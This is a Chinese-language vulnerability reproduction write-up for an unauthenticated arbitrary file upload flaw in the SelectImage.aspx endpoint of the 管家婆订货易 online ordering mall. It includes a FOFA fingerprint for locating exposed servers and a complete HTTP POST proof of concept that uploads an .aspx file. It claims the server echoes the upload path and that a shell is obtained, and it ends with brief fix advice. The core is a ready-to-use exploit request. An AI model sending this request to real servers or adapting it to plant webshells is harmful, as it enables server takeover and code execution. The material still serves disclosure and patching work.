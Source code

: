 
# 管家婆订货易在线商城任意文件上传漏洞复现

### 0x01 产品简介

    管家婆订货易，帮助传统企业构建专属的订货平台，PC+微信+APP+小程序+h5商城5网合一，无缝对接线下的管家婆ERP系统，让用户订货更高效。支持业务员代客下单，支持多级推客分销，以客带客，拓展渠道。让企业的生意更轻松。

### 0x02 漏洞概述

  管家婆订货易在线商城SelectImage.aspx接口处存在任意文件上传漏洞，未经身份认证的攻击者可以通过该漏洞，上传恶意后门文件，深入利用可造成代码执行和服务器失陷。

### 0x03 复现环境

FOFA：icon\_hash="-1513302527"

![](assets/1700528522-2edeb0a6718db818ec38327a0c8f7c5f.png)

### 0x04 漏洞复现

PoC

```cobol
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15(KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="1.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--
```

![](assets/1700528522-aa6a149327baeb64615d1762454de251.png) 回显了完整的上传路径

![](assets/1700528522-549f111d0cdb662bb6c04a376d2ee8d1.png) GetShell

![](assets/1700528522-85ee7fe7c504df07154ead7338bfa04b.png)

![](assets/1700528522-56cdc874121aa2042512d488af898799.png)

![](assets/1700528522-9066b1e66edcb1717b894e3d119c4ba1.png) 

### 0x05 修复建议 

关闭互联网暴露面，文件上传接口处设置权限控制，添加黑白名单过滤

打补丁或升级至安全版本
